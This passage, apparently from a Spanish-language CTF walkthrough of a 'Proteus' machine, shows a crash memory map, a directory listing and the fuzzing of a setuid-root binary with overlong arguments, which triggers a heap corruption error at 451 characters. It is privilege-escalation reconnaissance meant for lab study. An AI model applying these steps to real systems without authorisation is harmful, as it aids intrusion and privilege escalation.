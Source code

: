 ```
b7421000-b7500000 ---p 00000000 00:00 0
b757a000-b7596000 r-xp 00000000 08:01 131129     /lib/i386-linux-gnu/libgcc_s.so.1
b7596000-b7597000 r--p 0001b000 08:01 131129     /lib/i386-linux-gnu/libgcc_s.so.1
b7597000-b7598000 rw-p 0001c000 08:01 131129     /lib/i386-linux-gnu/libgcc_s.so.1
b7598000-b774b000 r-xp 00000000 08:01 132762     /lib/i386-linux-gnu/libc-2.24.so
b774b000-b774c000 ---p 001b3000 08:01 132762     /lib/i386-linux-gnu/libc-2.24.so
b774c000-b774e000 r--p 001b3000 08:01 132762     /lib/i386-linux-gnu/libc-2.24.so
b774e000-b774f000 rw-p 001b5000 08:01 132762     /lib/i386-linux-gnu/libc-2.24.so
b774f000-b7752000 rw-p 00000000 00:00 0
b775b000-b775e000 rw-p 00000000 00:00 0
b775e000-b7760000 r--p 00000000 00:00 0          [vvar]
b7760000-b7762000 r-xp 00000000 00:00 0          [vdso]
b7762000-b7784000 r-xp 00000000 08:01 131842     /lib/i386-linux-gnu/ld-2.24.so
b7784000-b7785000 rw-p 00000000 00:00 0
b7785000-b7786000 r--p 00022000 08:01 131842     /lib/i386-linux-gnu/ld-2.24.so
b7786000-b7787000 rw-p 00023000 08:01 131842     /lib/i386-linux-gnu/ld-2.24.so
bffdb000-bfffc000 rw-p 00000000 00:00 0          [stack]
Aborted (core dumped)
```

Parece que algo hemos roto. Además, nos aparece un nuevo archivo propiedad de *root*. No podemos ver el contenido, sólo el tamaño (492 bytes).

```
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ls -al
ls -al
total 40
drwxr-xr-x 4 malwareadm malwareadm 4096 Jul 26 17:29 .
drwxr-xr-x 3 malwareadm malwareadm 4096 May  2 14:43 ..
-rw-r--r-- 1 malwareadm malwareadm 6115 May  4 22:18 PROTEUS_INSTALL
-rw------- 1 root       www-data    492 Jul 26 17:29 XXXXXXXXXXXXXXXXXXXXXXXXXXXX??
-rwsr-xr-x 1 root       root       7824 May 10 09:18 admin_login_logger
-rw-r--r-- 1 malwareadm malwareadm  515 May 15 14:43 admin_login_request.js
drwxr-xr-x 2 malwareadm malwareadm 4096 May  2 14:07 db
drwxr-xr-x 9 malwareadm malwareadm 4096 May 10 08:30 web
```

Hacemos unas pruebas para hallar la longitud del argumento a partir de la que empieza a fallar, resultando 451:

```
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ./admin_login_logger $(for i in {0..450}; do echo -n G; done)
Writing datafile 0x94b11d0: '/var/log/proteus/log'
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ./admin_login_logger $(for i in {0..451}; do echo -n H; done)
Writing datafile 0x827c1d0: '/var/log/proteus/log'
*** Error in `./admin_login_logger': double free or corruption (!prev): 0x0827c008 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x67f0a)[0xb75fdf0a]
```

Como no podemos leer los archivos creados por el desbordamiento de buffer, vamos a ver si podemos descargar *admin_login_logger* y ejecutarlo en local.
